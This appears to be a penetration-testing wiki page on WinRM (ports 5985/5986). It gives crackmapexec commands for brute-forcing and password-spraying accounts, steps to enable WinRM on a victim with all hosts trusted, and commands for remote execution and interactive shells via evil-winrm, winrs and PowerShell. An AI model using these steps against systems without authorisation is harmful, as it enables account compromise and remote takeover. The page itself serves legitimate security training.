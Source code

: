 ```yaml
---
description: Port 5985,5986
---
```


# WinRM

## Theory

Windows Remote Management (WinRM) is a Microsoft protocol that **allows remote management of Windows machines** over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.\
If WinRM is enabled on the machine, it's trivial to remotely administer the machine from PowerShell. In fact, you can just drop in to a remote PowerShell session on the machine (as if you were using SSH!)\
The easiest way to detect whether WinRM is available is by seeing if the port is opened. WinRM will listen on one of two ports: **5985/tcp (HTTP) or 5986/tcp (HTTPS)**

## **Practice**

### Targeting Accounts

{% tabs %}
{% tab title="Bruteforce" %}
Be careful, brute-forcing winrm could block users.

```bash
crackmapexec winrm <IP> -d <Domain Name> -u <userlist> -p <passwlist>
```
{% endtab %}

{% tab title="Password Spray" %}
We can use following command to password spray

```bash
crackmapexec winrm <IP> -d <Domain Name> -u <userlist> -p 'Passw0rd!'
```
{% endtab %}
{% endtabs %}

### Enable WinRM

Most Windows Server installations will have WinRM enabled by default, making it an attractive attack vector. However, for instances where this is not the case, we can enable it using powershell

{% tabs %}
{% tab title="Enable WinRM" %}
If we have access to an **elevated PowerShell** prompt on the victim, we cam enable it and add any "attackers" as trusted hosts. We can run the following two commands

```powershell
Enable-PSRemoting -Force
Set-Item wsman:\localhost\client\trustedhosts *
```

We can also **activate** WinRM **remotely** using wmic

```powershell
wmic /node:<REMOTE_HOST> process call create "powershell enable-psremoting -force"
```
{% endtab %}

{% tab title="Check configuration" %}
use the `Test-WSMan` function to test whether the target is configured for WinRM. You should see some information returned about the protocol version and wsmid:

```powershell
#Check locally
Test-WSMan

#Check remotely
Test-WSMan -ComputerName <TARGET>
```
{% endtab %}
{% endtabs %}

### Execute Remote Commands

{% tabs %}
{% tab title="UNIX-like" %}
We can use [crackmapexec](https://github.com/mpgn/CrackMapExec) to remotely execute a command on the target over WinRM.

```bash
#Execute command
crackmapexec winrm <IP> -u <user> -p <password> -x "whoami"

#Execute PowerShell command
crackmapexec winrm <IP> -u <user> -p <password> -x "$(Get-WMIObject -class Win32_ComputerSystem | select username).username"
```
{% endtab %}

{% tab title="Windows" %}
We can use PowerShell's `Invoke-Command` to remotely execute a command on the target over WinRM.

```powershell
#Create Powershell PSCredential object
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

#Invoke command remotly
Invoke-Command -Computername <TARGET> -Credential $credential -ScriptBlock {whoami}

#Invoke command remotly from functions of your current PS console (like imported modules)
Invoke-Command -ComputerName <TARGET> -Credential $credential -ScriptBLock ${function:enumeration} [-ArgumentList "arguments"]
```

You may also run scripts using WInRM

```powershell
Invoke-Command -ComputerName <TARGET> -FilePath C:\path\to\script\file -credential $credential
```
{% endtab %}
{% endtabs %}

### Remote shell

{% tabs %}
{% tab title="UNIX-like" %}
[Evil-winrm](https://github.com/Hackplayers/evil-winrm) can be use to obtain a winrm powershell session

```bash
evil-winrm -u <user> -p <password> -i <IP>
```
{% endtab %}

{% tab title="Windows" %}
We can use the WinRs binary

```powershell
#Winrm Binary
winrs.exe -u:Administrator -p:Mypass123 -r:10.10.10.10 cmd
```

Or we can do the same with PowerShell

```powershell
#Create PowerShell PSCredential object
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

#Now we can create an interactive session or Invoke-Command remotly
#Interactive Session
Enter-PSSession -Computername <TARGET> -Credential $credential

#Interactive Session & Bypass proxy
Enter-PSSession -ComputerName <TARGET> -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
```
{% endtab %}
{% endtabs %}

## **Resources**

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm" %}
